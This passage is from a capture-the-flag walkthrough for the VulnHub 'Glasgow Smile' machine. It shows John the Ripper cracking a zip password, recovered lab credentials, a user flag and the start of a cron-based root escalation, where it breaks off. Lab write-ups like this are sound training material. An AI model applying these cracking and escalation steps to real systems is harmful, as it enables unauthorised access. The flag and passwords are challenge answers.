 	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/loot/zip]
	└─# echo -n I33hope99my0death000makes44more8cents00than0my0life0 >> compiled_passwords.txt

	```
8. Crack it w/ john
	```
	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/loot/zip]
	└─# john john_zip --wordlist=compiled_passwords.txt
	Press 'q' or Ctrl-C to abort, almost any other key for status
	I33hope99my0death000makes44more8cents00than0my0life0 (dear_penguins.zip/dear_penguins)     
	1g 0:00:00:00 DONE (2022-01-27 16:45) 100.0g/s 22700p/s 22700c/s 22700C/s baneishere..Joomla
	```
	- Same password as abner
9. View extracted file
	```
	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/loot/zip]
	└─# unzip dear_penguins.zip
	Archive:  dear_penguins.zip
	[dear_penguins.zip] dear_penguins password: 
	  inflating: dear_penguins           
	  
	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/loot/zip]
	└─# cat dear_penguins
	My dear penguins, we stand on a great threshold! It's okay to be scared; many of you won't be coming back. Thanks to Batman, the time has come to punish all of God's children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
	scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
	
	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/loot/zip]
	└─# echo -n scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz >> compiled_passwords.txt 
	```
	- penguin:scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
10. Switch to user penguin
	![](images/Pasted%20image%2020220127164946.png)
11. User Flag 3
	```
	penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat user3.txt 
	JKR{284a3753ec11a592ee34098b8cb43d52}
	```

## Root - Via Cronjob
1. View files in `/home/penguin/SomeoneWhoHidesBehindAMask`
	```
	penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
	total 332
	drwxr--r-- 2 penguin penguin   4096 Jan 27 02:59 .
	drwxr-xr-x 5 penguin penguin   4096 Jun 16  2020 ..
	-rwsr-x--x 1 penguin penguin 315904 Jun 15  2020 find
	-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
	-rwxr-xr-x 1 penguin root       664 Jan 27 02:59 .trash_old
	-rw-r----- 1 penguin penguin     38 Jun 16  2020 user3.txt
	```
	- find SUID Binary is useless because owner is penguin
	- .trash_old
	- PeopleAreStartingToNotice.txt
2. View files